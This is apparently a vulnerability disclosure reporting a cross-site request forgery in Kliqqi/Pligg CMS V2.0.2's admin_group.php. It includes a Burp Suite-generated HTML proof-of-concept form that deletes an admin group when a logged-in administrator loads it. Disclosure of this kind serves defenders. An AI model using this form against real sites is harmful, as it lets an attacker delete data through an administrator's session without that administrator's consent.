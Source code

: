 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_group.php?mode=delete&group_id=3

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_group.php?mode=delete&group_id=3" method="POST">
      <input type="hidden" name="mode" value="delete" />
<input type="hidden" name="group_id" value="3" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

